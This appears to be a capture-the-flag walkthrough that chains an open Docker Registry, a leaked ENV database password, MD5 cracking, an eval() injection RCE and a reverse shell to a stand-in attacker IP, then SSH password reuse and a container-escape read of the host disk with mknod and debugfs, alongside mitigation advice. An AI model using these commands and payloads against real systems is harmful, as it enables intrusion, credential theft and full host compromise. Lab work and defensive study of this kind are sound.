

Reconnaissance
Fast scan first — see who's talking before committing to the full 65535.
shell
sudo nmap -sS -sV -sC 10.48.153.254 -F -T4Four ports, and three of them are already a story. MySQL listening on a public interface is a decision somebody made on purpose — the default in every sane deployment is bind-address = 127.0.0.1, so seeing 3306 answer from outside means it was deliberately opened. A Docker Registry on 5000 is even louder: that's a private artifact store for container images, the kind of thing that belongs behind a VPN and an auth proxy, not on the open internet.
The web app on 8080 gets the first look anyway, because that's where a login form is, and login forms are where credentials eventually get used.
Fuzzing 8080 — a dead end, quickly
shell
ffuf -u http://10.48.153.254:8080/FUZZ \
-w /usr/share/seclists/Discovery/Web-Content/common.txt \
-e .php,.html,.txtNothing. A login page and a whole lot of 404s. Which is fine — a Node/Express app isn't going to leak .php backups, and content discovery against a single-page login form is mostly a formality. Ten seconds of "well, it was worth checking."
Fuzzing 5000 — considerably more productive
shell
dirsearch -u http://10.48.153.254:5000
[200] /v2/
[200] /v2/_catalog/v2/ returning 200 instead of 401 is the entire finding, right there. That endpoint is the Docker Registry API's version handshake, and it exists specifically so clients can probe whether authentication is required. A 401 with a WWW-Authenticate header means "log in first." A 200 means "help yourself."
Docker Registry API v2 — Enumerating the Shelf
The Registry API is small and completely predictable. Three requests take you from "there is a registry here" to "I have the image."
What repositories exist
shell
curl http://10.48.153.254:5000/v2/_catalog
{"repositories":["umbrella/timetracking"]}One repository: umbrella/timetracking. Given that port 8080 is serving a login page for what is presumably a time tracking app, we've just found its source code before we've found its password field.
What versions of it
shell
curl http://10.48.153.254:5000/v2/umbrella/timetracking/tags/list
{"name":"umbrella/timetracking","tags":["latest"]}What it's made of
The manifest is the image's table of contents: a list of layer digests plus a pointer to the config blob. Note the Accept header — ask for the v2 manifest schema explicitly, or the registry may hand back a legacy v1 format that's laid out differently.
shell
curl -H "Accept: application/vnd.docker.distribution.manifest.v2+json" \
http://10.48.153.254:5000/v2/umbrella/timetracking/manifests/latestoutput — manifest (trimmed)
{
"schemaVersion": 2,
"config": {
"mediaType": "application/vnd.docker.container.image.v1+json",
"digest": "sha256:7843f102a2fcb44f83d5..." # ← remember this one
},
"layers": [
{ "digest": "sha256:3f4ca61aafcd4fc07267..." },
{ "digest": "sha256:00fde01815c92cc90586..." },
... 11 layers total ...
]
}layers array is the filesystem — every COPY, RUN and apt install from the Dockerfile, one tarball each. The config object is the metadata: entrypoint, working directory, exposed ports, build history, and — the part that matters later — the full ENV block. Most people unpack the layers, grep them, find nothing, and stop. The config blob is a separate download and it is where this box hides the keys.Reassembling the Filesystem
Eleven layers, each fetched from the /blobs/ endpoint by digest. My shell is fish, so the loop syntax below is fish rather than bash — same idea, fewer semicolons.
fish — pull every layer
mkdir -p layers; cd layers
for digest in \
3f4ca61aafcd4fc07267a105067db35c0f0ac630e1970f3cd0c7bf552780e985 \
00fde01815c92cc90586fcf531723ab210577a0f1cb1600f08d9f8e12c18f108 \
a3241ece5841b2e29213eb450a1b29385bf9e0063c37978253c98ff517e6e1b3 \
f897be510228b2f804fc2cb5d04cddae2e5689cbede553fb2d587c54be0ba762 \
23e2f216e8246d20ed3271ad109cec07f2a00b17bef8529708d8ae86100c7e03 \
15b79dac86ef36668f382565f91d1667f7a6fc876a3b58b508b6778d8ed71c0e \
7fbf137cf91ff826f2b2fddf3a30ea2e3d2e62d17525b708fd76db392e58df62 \
e5e56a29478cdf60132aa574648135a89299151414b465942a569f2109eefa65 \
82f3f98b46d4129f725cab6326d0521589d5b75ae0a480256495d216b2cd9216 \
62c454461c50ff8fb0d1c5d5ad8146203bb4505b30b9c27e6f05461b6d07edcb \
c9124d8ccff258cf42f1598eae732c3f530bf4cdfbd7c4cd7b235dfae2e0a549
curl -s "http://10.48.153.254:5000/v2/umbrella/timetracking/blobs/sha256:$digest" \
-o "$digest.tar.gz"
endNow flatten them. Layers are ordered and cumulative — each one is a diff against everything below it — so extracting them into a single directory in manifest order reproduces the container's root filesystem exactly as the app sees it.
fish — flatten into one rootfs
mkdir -p ../rootfs
for f in *.tar.gz
tar -xzf "$f" -C ../rootfs 2>/dev/null
end
cd ../rootfsThe 2>/dev/null is not laziness — it's suppressing the whiteout-file warnings tar throws when a later layer deletes something an earlier one created. Harmless noise for our purposes.
Grepping for the obvious
fish — hunt for secrets
grep -rEn "password|passwd|DB_|mysql|secret|api_key|token" \
--include="*.js" --include="*.env" --include="*.json" \
--include="*.yml" --include="*.yaml" . 2>/dev/null
find . -iname "*.env*" -o -iname "config*.js" -o -iname "docker-compose*"This turns up the application source at usr/src/app/app.js — the whole Express app, routes and all — but no password. The DB connection reads from process.env.DB_PASS, which is exactly what a competent developer is supposed to do. Credentials don't belong in source control.
app.js and into an environment variable — then set that environment variable with an ENV instruction in the Dockerfile. Which bakes it permanently into the image metadata, published to a registry with no authentication. The secret didn't get protected; it got relocated somewhere less obvious.The Config Blob — Where the Password Actually Lives
Back to the manifest, and that config.digest we set aside. It's fetched from the same /blobs/ endpoint as the layers, but it isn't a tarball — it's a plain JSON document describing the image's runtime configuration.
shell
curl -s http://10.48.153.254:5000/v2/umbrella/timetracking/blobs/sha256:7843f102a2fcb44f83d52a49afaff3af44e2b59793fbd06c21d235395588a286 \
| python3 -m json.tool | grep -A 30 '"Env"'output — image config, Env block
"Env": [
"PATH=/usr/local/sbin:/usr/local/bin:...",
"NODE_VERSION=18.12.1",
"DB_HOST=db",
"DB_USER=root",
"DB_PASS=[redacted]", # ← there it is
"DB_DATABASE=timetracking",
"LOG_FILE=/logs/tt.log"
]Root credentials to the database, published anonymously over HTTP, retrievable with a single curl. The password itself is a piece of chess notation — a real opening line, move by move — which is a genuinely nice touch from the room author and also completely irrelevant to how fast it fell over. Cleverness in a password only helps if the password is somewhere secret.
ENV in a Dockerfile is not a secret store — it's the opposite. Anything set with ENV is written into the image config, survives forever in the build history, is visible to docker inspect, to docker history, to every developer who pulls the image, and to any stranger who can reach the registry. Even ARG passed at build time leaks into history. Real secrets go in at runtime — orchestrator secrets, a mounted vault, --env-file outside the image — never at build time.history array. It contains every Dockerfile instruction as a literal command string. Even when Env is clean, build history routinely leaks internal hostnames, private package registry URLs, curl commands with tokens in them, and the odd RUN echo $PASSWORD > /tmp/x. It's free reconnaissance and almost nobody sanitises it.MySQL — Root, From the Internet
The DB_HOST=db value is a Docker Compose service name, meaningless from outside the container network. But nmap already told us 3306 answers on the host itself, so the database is reachable directly — the credentials just need pointing at the public IP instead.
shell
mysql -h 10.48.153.254 -u root -p'[redacted]' timetrackingsql
SHOW DATABASES;
USE timetracking;
SHOW TABLES;
SELECT * FROM users;| User | Password hash | |
|---|---|---|
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 | 32 hex chars — unsalted MD5 |
| chris-r | 0d107d09f5bbe40cade3de5c71e9e9b7 | same |
| jill-v | d5c0607301ad5d5c1528962a83992ac8 | same |
| barry-b | 4a04890400b5d7bac101baace5d7e994 | same |
Resident Evil's entire surviving cast, stored as bare MD5. We don't even have to guess the algorithm — the source code we pulled out of the registry in section 03 spells it out:
javascript — usr/src/app/app.js
const hash = crypto.createHash('md5').update(password).digest('hex');Cracking, and Walking Through the Front Door
Four hashes, one wordlist, no strategy required.
shell
john --format=Raw-MD5 --wordlist=~/Downloads/rockyou.txt hash.txt
john --format=Raw-MD5 --show hash.txt
claire-r:Password1
1 password hash cracked, 3 leftInstant. Not "a few minutes" — instant, because Password1 sits near the top of rockyou and satisfies most corporate complexity policies at the same time: uppercase, lowercase, a digit, eight characters. It is the canonical example of a policy that measures the wrong thing. The other three held out, and one cracked account is one more than we need.
Logging into the app
Straight to http://10.48.153.254:8080 with claire-r:Password1. The credentials came out of the app's own users table, so of course they work — this is the intended login, just with someone else's password.

And there, in a friendly blue banner, the application volunteers the vulnerability:
5+4"A web form that evaluates arithmetic is a web form that is running something as code. There are safe ways to parse 5+4 and there are lazy ways, and a hint box bragging about the feature is a strong signal about which one got shipped. We already have the source code, so no guessing is necessary — just open app.js and look at the route.
eval() — Remote Code Execution as Advertised
javascript — app.js, POST /time
app.post('/time', (request, response) => {
// ...
let timeCalc = parseInt(eval(request.body.time)); // ← user input, straight into eval()
// ...
});User-controlled input passed directly to eval(). That's Server-Side Code Injection — the whole vulnerability in one line. parseInt() wrapped around it does absolutely nothing defensive: eval() runs first, executes whatever it's given, and only then does parseInt() attempt to make a number out of the leftovers. By the time parseInt has an opinion, our code has already run.
Crucially, this is blind. The route stores a number and redirects; it never reflects the result back. So the first job isn't a shell, it's an output channel.
Building an output channel
Express is serving static files out of /usr/src/app/public/ — we know the path because we unpacked the filesystem. So: run the command, write stdout into the static directory, then fetch it over HTTP like a normal web page.
shell — prove execution
curl -s -b "connect.sid=<session_cookie>" \
-X POST http://10.48.153.254:8080/time \
--data-urlencode "time=require('fs').writeFileSync('/usr/src/app/public/out.txt', require('child_process').execSync('id').toString())"
curl -s http://10.48.153.254:8080/out.txt
uid=0(root) gid=0(root) groups=0(root)connect.sid from browser devtools after logging in as claire-r. The /time route is behind session auth, so an unauthenticated POST just bounces to the login page. This is why the cracked password mattered: the RCE was never reachable anonymously.uid=0(root). The Node process is running as root — the container image never dropped privileges with a USER instruction, which is the norm far more often than it should be.
Reverse shell
shell — listener
nc -lvnp 4444shell — trigger
curl -s -b "connect.sid=<session_cookie>" \
-X POST http://10.48.153.254:8080/time \
--data-urlencode "time=require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1\"')"Shell lands. Root — but root of a container, which is a smaller kingdom than it sounds. hostname is a random hex string, /proc/1/cgroup mentions Docker, and the filesystem is the same one we already downloaded and read at our leisure. There is nothing in here we don't already have.
Credential Reuse — Container to Host
The container is a dead end by design; the host is the target. And the shortest path there has nothing to do with Docker at all. claire-r is a username in the application's database, and port 22 is open, and people reuse passwords.
shell
ssh claire-r@10.48.153.254
# password: Password1
claire-r@umbrella:~$ cat user.txt
THM{[redacted]}A password cracked out of a web application's user table opened an SSH session on the underlying host. No exploit, no escalation — the same six characters and a digit, used twice.
user:pass, try it against SSH, SMB, the VPN, the mail server, the admin panel. Credential reuse is not a CTF shortcut; it's the single most reliable lateral movement technique in real engagements, because password managers are a habit most humans never picked up.So now we hold two positions on the same machine: root inside a container, and an unprivileged user on the host. Neither is enough on its own. Together they're everything.
Container Escape — Reading the Host's Disk Through the Wall
This is the good part. The escape needs no kernel exploit and no CVE — just three ordinary Linux behaviours pointed at each other.
The three pieces
CAP_MKNOD is in Docker's default capability set. Root inside a container can call mknod and create a block device node pointing at any major/minor number it likes — including the host's real disk. The device node is just a pointer; creating it is not privileged in any meaningful sense.EPERM on that node. Note carefully what's being restricted: not the file, the cgroup membership of the reader./proc/<PID>/root is a doorway from the host into any container. For every process, the kernel exposes its root directory as a symlink under /proc. A host process reading /proc/<PID>/root/hostdisk reaches the node we created — but does so from outside the container's cgroup, so the device whitelist never applies to it./proc punches a hole straight through both. The device node is created where the restriction exists, and read from where it doesn't. Nothing is broken; two correct mechanisms simply don't know about each other.The last constraint: /proc/<PID>/root is guarded by the kernel's ptrace_may_access check. To traverse it, the reader must either hold CAP_SYS_PTRACE or match the target process's UID. claire-r has neither capability nor root — so we make the UIDs match instead, by spawning a process inside the container that pretends to be claire-r.
Step 1 — find the host's disk (in the container)
container — root shell
cat /proc/partitions
major minor #blocks name
253 0 6549504 dm-0 # ← host LVM root volume, visible from inside/proc/partitions is not namespaced. The container can enumerate every block device on the host — it just can't open them. Major 253, minor 0.
Step 2 — create the device node (in the container)
container — root shell
cd /
mknod hostdisk b 253 0
chmod 777 hostdisk
# reading it here fails — devices cgroup says no. Expected.Step 3 — learn claire-r's UID (on the host)
host — ssh
id
uid=1001(claire-r) gid=1001(claire-r) groups=1001(claire-r)Step 4 — spawn a matching process (in the container)
Node is already installed — it's the application runtime — so it's the most convenient way to drop privileges and hold a process open. Order matters: setgid before setuid, because once you've dropped UID you no longer have the privilege to change GID.
container — root shell
node -e "process.setgid(1001); process.setuid(1001); require('child_process').spawn('/bin/sh', {stdio: 'inherit'});"A shell now runs inside the container as UID 1001. It has no special powers there — its only job is to exist, owned by the right number, with the container's root filesystem attached to it.
Step 5 — find its PID from the host
host — ssh
ps aux | grep '/bin/sh'
claire-r 2320 0.0 0.0 2608 600 ? Ss /bin/sh42 inside, 2320 outside — and /proc on the host only answers to the host's numbering. Grabbing the container-side PID and wondering why /proc/42/root is somebody else's process is the classic way to lose twenty minutes here. Note also that the host's ps shows the process as owned by claire-r — the host and the container share a UID space, which is precisely the property being abused.Step 6 — reach the device from outside
host — ssh
ls -la /proc/2320/root/hostdisk
brwxrwxrwx 1 root root 253, 0 /proc/2320/root/hostdiskAn unprivileged host user is now holding a readable handle on the host's root volume. Same inode, same device — the only thing that changed is which side of the cgroup boundary the reader is standing on.
Step 7 — read the filesystem without mounting it
mount would need CAP_SYS_ADMIN, which claire-r doesn't have. So don't mount it — parse it. debugfs is the ext2/3/4 debugger, it speaks the on-disk format natively, and it only needs read access to the block device.
host — ssh
debugfs -R "cat /etc/shadow" /proc/2320/root/hostdisk
# root:$6$... — every hash on the box
debugfs -R "cat /root/root.txt" /proc/2320/root/hostdisk
THM{[redacted]}/etc/shadow being 0640 root:shadow is a rule the kernel applies when you open a path through a mounted filesystem. Reading raw blocks off the device and decoding the inodes yourself never involves that code path. Whoever can read the block device can read every file on it, and root's private keys are sitting in the same place the flag was.CAP_MKNOD (--cap-drop=MKNOD, or better --cap-drop=ALL and add back only what's needed); don't run the container process as root (USER node in the Dockerfile); enable user namespace remapping so container UID 0 maps to an unprivileged host UID and the UID-matching trick collapses; and hidepid=2 on /proc so unprivileged users can't enumerate other users' processes at all.Chain Summary & Takeaways
ENV feels like a fix and isn't one. The credential stops being in git and starts being in an artifact that gets pushed to a registry, cached on every build agent, and pulled by everyone. Build time is the wrong time to introduce a secret — inject it at runtime.eval() into an interactive terminal over HTTP. Knowing the app's paths — because you pulled the image — is what makes that a ten-second step instead of a guessing game./proc, capabilities, the kernel itself. All four were shared here.